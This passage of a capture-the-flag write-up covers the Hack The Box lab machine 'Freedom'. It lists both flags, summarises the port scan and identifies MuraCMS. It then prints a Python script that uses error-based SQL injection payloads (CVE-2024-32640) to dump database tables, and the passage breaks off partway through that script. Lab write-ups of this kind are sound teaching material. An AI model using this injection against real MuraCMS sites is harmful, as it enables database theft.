 ```yaml
---
icon: server
---
```


# Freedom

### Challenge Description

In these challenging times, the voices of freedom are growing fainter. Help us identify potential vulnerabilities in our systems so we can safeguard them against the Frontier Board, which seeks to silence any dissenting opinions. Allow up to 3 minutes for all the services to properly boot.

### Flags

User flag: `HTB{c4n_y0u_pl34as3_cr4ck?}`

Root flag: `HTB{l34ky_h4ndl3rs_4th3_w1n}`

***

### Enumeration

We start with `nmap` per usual, and we found an HTTP server, a DNS server and multiple services for Active Directory.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

After setting the hostname of this IP to `freedom.htb`, we can now access the website.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

From the HTML source code, we can see that this website is built using MuraCMS, evident from the JS and CSS files imported to the HTML.

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

After some research, I have found an [SQL Injection vulnerability](https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS?tab=readme-ov-file#details) on this website. With this injection, I managed to dump every table using the script below. Credits to NeoZap for creating this script.

```python
import re
import requests

def sqli(payload):
    url = f"http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid={payload}&previewID=x"
    res = requests.get(url)
    data = res.json()
    try:
        table_name = re.findall(r"'\n(.+?)'", data["error"]["stacktrace"]["message"])[0]
        return table_name
    except:
        return None

def fetch_data(query, use_chunks=False):
    """Fetch data with optional chunking for long values"""
    if not use_chunks:
        # Try simple fetch first
        payload = f"x\\' or updatexml(null,concat(0x0a,({query})),null) -- a"
        result = sqli(payload)
        # If result is 31 chars, it might be truncated - retry with chunks
        if result and len(result) == 31:
```